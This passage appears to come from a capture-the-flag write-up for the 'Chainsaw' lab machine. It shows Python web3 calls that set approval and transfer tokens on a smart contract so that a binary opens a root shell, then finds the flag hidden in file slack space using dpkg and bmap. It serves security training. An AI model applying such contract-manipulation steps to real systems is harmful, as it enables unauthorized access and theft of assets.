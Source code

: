After executing the _ChainsawClub_ binary, the credentials are accepted but it says that the user is not approved, so lets approve it:
```python
contract.functions.setApprove(True).transact()
```

It says that there are not enough funds, so lets transfer some funds:
```python
contract.functions.getSupply().call()
# 1000
contract.functions.getBalance().call()
# 0

contract.functions.transfer(1000).transact()
```

After executing the binary, it now accepts the credentials and starts a shell as root!
Unfortunately when reading the contents of _root.txt_ it says:
> Mine deeper to get rewarded with root coin (RTC)...

## Getting root.txt with Forensic Methods

In Linux _/usr/local_ & _/usr/bin/local_ is usually a place where users put in files by themselves, while _/usr/sbin_ and so on are managed by the package manager of the distribution (in the case of Ubuntu **apt**).
So we will look for things, that `apt` is supposed to manage but was not put there by it.

Looping through all binaries and searching with `dpkg` in which package a program is in:
```bash
for i in $(ls /sbin/*); do dpkg --search $i; done
```

One result comes back with an error from `dpkg`:
```markdown
dpkg-query: no path found matching pattern /sbin/bmap
```

After some research about _bmap_ it seems to be this [bmap on GitHub](https://github.com/CameronLonsdale/bmap), which is used to hide files in **Slack Space**.

When looking at _root.txt_, it is 52 bytes big and the disk usage is 4096 bytes because that is a block on the disk:
```markdown
ls -l root.txt

# Output
-r--r----- 1 root root 52 Jan 23  2019 /root/root.txt
```

```markdown
du -h root.txt

# Output
4.0K    /root/root.txt
```

This is absolutely normal behavior for files on Linux, but it is possible to hide data in this empty block space with _bmap_ that can be shown with it:
```markdown
bmap --slack /root/root.txt
```

This displays the contents of the slack space of _root.txt_ and the box is done!
